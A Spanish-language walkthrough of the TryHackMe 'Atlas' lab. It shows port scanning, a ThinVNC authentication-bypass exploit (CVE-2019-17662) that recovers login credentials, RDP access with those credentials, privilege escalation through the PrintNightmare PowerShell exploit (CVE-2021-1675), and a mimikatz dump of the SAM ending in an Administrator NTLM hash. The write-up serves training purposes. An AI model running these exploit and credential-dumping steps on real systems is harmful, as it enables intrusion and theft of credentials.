

# atlas



## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -oN allPorts.txt -oG ports 10.201.53.80

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
7680/tcp open  pando-pub
8080/tcp open  http-proxy
```

```bash
nmap -sC -sV -p3389,7680,8080 -Pn 10.201.53.80 -oN target.txt

PORT     STATE    SERVICE       VERSION
3389/tcp open     ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-11-05T08:11:32+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=GAIA
| Not valid before: 2025-11-04T08:03:55
|_Not valid after:  2026-05-06T08:03:55
7680/tcp filtered pando-pub
8080/tcp open     http-proxy
| http-auth: 
| HTTP/1.1 401 Access Denied\x0D
|_  Digest qop=auth nonce=oxcX68px5kCI4zgCynHmQA== realm=ThinVNC opaque=RdFwI8RWkZUZNoA7dQl8yj80O3fDRyVFVg
|_http-title: 401 Access Denied
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Type: text/html
|     Content-Length: 177
|     Connection: Keep-Alive
|     <HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.<P></BODY></HTML>
|   GetRequest: 
|     HTTP/1.1 401 Access Denied
|     Content-Type: text/html
|     Content-Length: 144
|     Connection: Keep-Alive
|     WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="ZsSj4Mpx5kCI1zgCynHmQA==", opaque="cp5TYmnrjexhTJeoocMfNeiKJx8RtVDQbr"
|_    <HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL requires authorization.<P></BODY></HTML>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.95%I=7%D=11/5%Time=690B063E%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,179,"HTTP/1\.1\x20401\x20Access\x20Denied\r\nContent-Type:\x20
SF:text/html\r\nContent-Length:\x20144\r\nConnection:\x20Keep-Alive\r\nWWW
SF:-Authenticate:\x20Digest\x20realm=\"ThinVNC\",\x20qop=\"auth\",\x20nonc
SF:e=\"ZsSj4Mpx5kCI1zgCynHmQA==\",\x20opaque=\"cp5TYmnrjexhTJeoocMfNeiKJx8
SF:RtVDQbr\"\r\n\r\n<HTML><HEAD><TITLE>401\x20Access\x20Denied</TITLE></HE
SF:AD><BODY><H1>401\x20Access\x20Denied</H1>The\x20requested\x20URL\x20\x2
SF:0requires\x20authorization\.<P></BODY></HTML>\r\n")%r(FourOhFourRequest
SF:,111,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Type:\x20text/html\r\
SF:nContent-Length:\x20177\r\nConnection:\x20Keep-Alive\r\n\r\n<HTML><HEAD
SF:><TITLE>404\x20Not\x20Found</TITLE></HEAD><BODY><H1>404\x20Not\x20Found
SF:</H1>The\x20requested\x20URL\x20nice%20ports%2C/Tri%6Eity\.txt%2ebak\x2
SF:0was\x20not\x20found\x20on\x20this\x20server\.<P></BODY></HTML>\r\n");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.93 seconds
```

### HTTP (80, 8080)
```
whatweb http://10.201.53.80:8080
http://10.201.53.80:8080 [401 Unauthorized] Country[RESERVED][ZZ], IP[10.201.53.80], Title[401 Access Denied], WWW-Authenticate[ThinVNC][Digest]
```

```bash
curl 10.201.53.80:8080 -v                                                                                     

*   Trying 10.201.53.80:8080...
* Connected to 10.201.53.80 (10.201.53.80) port 8080
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 10.201.53.80:8080
> User-Agent: curl/8.15.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 401 Access Denied
< Content-Type: text/html
< Content-Length: 144
< Connection: Keep-Alive
< WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="euTo98px5kDI4zgCynHmQA==", opaque="fGy8UHZ0o8gextFhHmJ35gJGF2fCCsZw8r"
< 
<HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL  requires authorization.<P></BODY></HTML>
* Connection #0 to host 10.201.53.80 left intact
```


```bash
searchsploit thinvnc                   

---------------------------------------------- --------------------------------- 
Exploit Title                                 | Path 
---------------------------------------------- --------------------------------- 
ThinVNC 1.0b1 - Authentication Bypass         | windows/remote/47519.py 
---------------------------------------------- --------------------------------- 
Shellcodes: No Results
```

## Privesc

Descargamos el exploit  [https://github.com/MuirlandOracle/CVE-2019-17662](https://github.com/MuirlandOracle/CVE-2019-17662)


```bash title="CVE-2019-17662.py"
./CVE-2019-17662.py 10.201.53.80 8080     
/home/rdrgox/Documents/TryHackMe/atlas/exploits/CVE-2019-17662/./CVE-2019-17662.py:73: SyntaxWarning: invalid escape sequence '\ '
  else:
/home/rdrgox/Documents/TryHackMe/atlas/exploits/CVE-2019-17662/./CVE-2019-17662.py:89: SyntaxWarning: invalid escape sequence '\/'
  self.args.host = re.sub("https?://|\/$", "", self.args.host)

     _____ _     _    __     ___   _  ____ 
    |_   _| |__ (_)_ _\ \   / / \ | |/ ___|
      | | | '_ \| | '_ \ \ / /|  \| | |    
      | | | | | | | | | \ V / | |\  | |___ 
      |_| |_| |_|_|_| |_|\_/  |_| \_|\____|

                            @MuirlandOracle

                
[+] Credentials Found!
Username:	Atlas
Password:	H0ldUpTheHe@vens
```

Elevar privilegios, PrintSpooler es conocido por sus vulnerabilidades de escalada de privilegios. Se ejecuta con los permisos máximos disponibles (bajo la cuenta NT AUTHORITY\SYSTEM) y es un objetivo frecuente en la investigación de vulnerabilidades. Se han encontrado numerosas vulnerabilidades en este servicio en el pasado; sin embargo, una de las más recientes se conoce como "PrintNightmare".

Descargamos exploit
```bash
git clone https://github.com/calebstewart/CVE-2021-1675.git
```

Conexión con xfreerdp, y compatimos el recurso.

```bash
# compartimos carpeta /tmp
xfreerdp /u:Atlas /p:'H0ldUpTheHe@vens' /v:10.201.53.80 /cert-ignore /dynamic-resolution +clipboard /drive:share,/tmp

# compartimos otra carpeta
xfreerdp /u:Atlas /p:'H0ldUpTheHe@vens' /v:10.201.53.80 /cert-ignore /dynamic-resolution +clipboard /drive:share,/home/rdrgox/Documents/TryHackMe/atlas/ 
```


```shell
powershell -ep bypass
. .\CVE-2021-1675.ps1
Invoke-Nightmare 
[+] using default new user: adm1n 
[+] using default new password: P@ssw0rd 
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll 
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll" 
[+] added user as local administrator 
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
```


Usamos un pequeño truco con un comando de PowerShell para iniciar una nueva ventana de comandos segura que se ejecute como administrador.

```shell
Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n
```


Otra manera de lanzar la cmd como adnmin

```powershell
powershell -ep bypass

. .\CVE-2021-1675.ps1

Invoke-Nightmare -NewUser "rdrgox" -NewPassword "P@ssw0rd" -DriverName "PrintMe"
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll 
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll" 
[+] added user as local administrator 
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
```

```shell
runas /user:rdrgox powershell.exe
Enter the password for rdrgox: P@ssw0rd
```


## Post-explotation

Nos volvemos a conectar con RDP e iniciamos `cmd` como administrador

```bash
xfreerdp /u:adm1n /p:'P@ssw0rd' /v:10.201.53.80 /cert-ignore /dynamic-resolution +clipboard /drive:share,/home/rdrgox/Documents/TryHackMe/atlas/ 
```

Aveces en mimikatz obtenemos el siguiente error. esto ocurre porqque el usuario de windows no tiene los privilegios `ERROR_kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061_: The required privilege is not held by the client (mostly you’re not an administrator)`.

```shell
.\mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624

SAMKey : 6e708461100b4988991ce3b4d8b1784e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: c16444961f67af7eea7e420b65c8c3eb
```


